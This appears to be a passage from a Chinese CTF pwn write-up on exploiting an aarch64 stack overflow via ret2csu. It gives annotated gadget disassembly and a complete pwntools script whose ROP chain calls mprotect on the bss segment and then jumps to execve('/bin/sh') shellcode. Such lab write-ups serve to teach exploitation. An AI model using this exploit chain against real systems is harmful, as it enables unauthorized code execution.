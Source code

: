 ```
payload = b'a'*0x48 + p64(shellcode_addr)
io.send(payload)
io.interactive()

```

但是这样就很没意思了，我们就把他当作真机的环境，需要我们用`mprotect`赋予`bss`段可执行权限，这样就是一个`aarch64`架构下的`ret2csu`了，不过和`x86_64`架构下的差不多，这里也就不多做分析了。

 

gadget 1 :

```
.text:00000000004008CC   LDP   X19, X20, [SP,#0x10] ; 将sp+0x10处数据给x19，sp+0x18处数据给x20
.text:00000000004008D0   LDP   X21, X22, [SP,#0x20] ; 将sp+0x20处数据给x21，sp+0x28处数据给x22
.text:00000000004008D4   LDP   X23, X24, [SP,#0x30] ; 将sp+0x300处数据给x23，sp+0x38处数据给x24
.text:00000000004008D8   LDP   X29, X30, [SP],#0x40 ; 将sp处数据给x29，sp+0x8处数据给x30，并将栈抬高64字节
.text:00000000004008DC   RET   ; 返回x30寄存器中存放的地址

```

gadget 2 :

```
.text:00000000004008AC   LDR    X3, [X21,X19,LSL#3] ; 将(x21+x19<<3)中的值（地址）赋给x3
.text:00000000004008B0   MOV    X2, X22 ; 将x22寄存器中的值赋给x2（部署3参）
.text:00000000004008B4   MOV    X1, X23 ; 将x23寄存器中的值赋给x1（部署2参）
.text:00000000004008B8   MOV    W0, W24 ; 将w24寄存器中的值赋给w0（部署1参）
.text:00000000004008BC   ADD    X19, X19, #1 ; x19寄存器中的值加一
.text:00000000004008C0   BLR    X3      ; 跳转至x3寄存器中存放的地址
.text:00000000004008C4   CMP    X19, X20 ; 比较x19寄存器与x20寄存器中的值
.text:00000000004008C8   B.NE   loc_4008AC ; 不等则跳转

```

注：`shellcode`中的`xzr`是清零寄存器。

```
from pwn import *
context(os = 'linux', arch = 'aarch64', log_level = 'debug')
 
io = process("qemu-aarch64 -L ./ ./pwn", shell = True)
# io = remote("node4.buuoj.cn", 27295)
elf = ELF("./pwn")
 
gadget1_addr = 0x4008CC
gadget2_addr = 0x4008AC
mprotect_addr = 0x411068
shellcode_addr = 0x411070
 
shellcode = asm('''
    add x0, x30, #20
    mov x1, xzr
    mov x2, xzr
    mov x8, #221
    svc 0
    .ascii "/bin/sh\\0"
''')
payload = p64(elf.plt['mprotect']) + shellcode
io.sendafter("Name:", payload)
 
payload = b'a'*0x48 + p64(gadget1_addr)
payload += p64(0) + p64(gadget2_addr) # X29 X30 (RET -> X30)  SP += 0x40
payload += p64(0) + p64(1) # X19 X20 (X19 + 1 == X20)
payload += p64(mprotect_addr) + p64(0x7) # X21(X3 = [X21], BLR X3)  X22(X2)
payload += p64(0x1000) + p64(shellcode_addr & 0xfff000) # X23(X1) X24(W0)
payload += p64(0) + p64(shellcode_addr) # X29 X30 (RET -> X30)
```
